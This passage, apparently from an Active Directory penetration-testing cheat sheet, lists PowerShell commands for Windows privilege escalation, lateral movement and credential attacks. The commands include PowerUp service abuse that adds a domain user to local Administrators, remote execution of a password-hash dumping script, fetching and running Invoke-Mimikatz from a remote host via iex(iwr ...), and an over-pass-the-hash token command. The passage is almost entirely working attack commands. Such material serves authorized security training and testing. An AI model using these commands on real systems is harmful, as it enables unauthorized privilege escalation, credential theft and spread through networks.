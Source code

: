 Link: [PrivEsc](https://github.com/enjoiz/Privesc/blob/master/privesc.ps1)

- **With PowerUp:**
```powershell
# Performs all checks
Invoke-AllChecks                                                         
# Get services with unquoted paths and a space in their name
Get-ServiceUnquoted -Verbose                                             
# Get services where the current user can write to its binary path or change arguments to the binary
Get-ModifiableServiceFile -Verbose                                       
# Get the services whose configuration current user can modify
Get-ModifiableService -Verbose                                           
# Let's add our current domain user to the local Administrators group 
Invoke-ServiceAbuse -Name 'software_xxx' -UserName 'corporate\student01'
```
- **With PrivEsc:**
```powershell
# Performs all checks
Invoke-Privesc                                        
```

# Lateral Movement

- **Powershell Remoting:**
```powershell
# Execute whoami & hostname commands on the indicated server
Invoke-Command -ScriptBlock {whoami;hostname} -ComputerName xxxx.corporate.corp.local          
# Execute the script Git-PassHashes.ps1 on the indicated server
Invoke-Command -FilePath C:\scripts\Get-PassHashes.ps1 -ComputerName xxxx.corporate.corp.local
# Enable Powershell Remoting on current Machine
Enable-PSRemoting
# Start a new session
$sess = New-PSSession -ComputerName <Name>
# Enter the Session
Enter-PSSession $sess
Enter-PSSession -ComputerName <Name>
Enter-PSSession -ComputerName -Sessions <Sessionname>
```

- **Invoke-Mimikatz:**
```powershell
# Execute Invoke-Mimikatz from computer xxx.xxx.xxx.xxx
iex (iwr http://xxx.xxx.xxx.xxx/Invoke-Mimikatz.ps1 -UseBasicParsing)                                           
# "Over pass the hash" generate tokens from hashes
Invoke-Mimikatz -Command '"sekurlsa::pth /user:admin /domain:corporate.corp.local /ntlm:x /run:powershell.exe"'
```

# Persistence
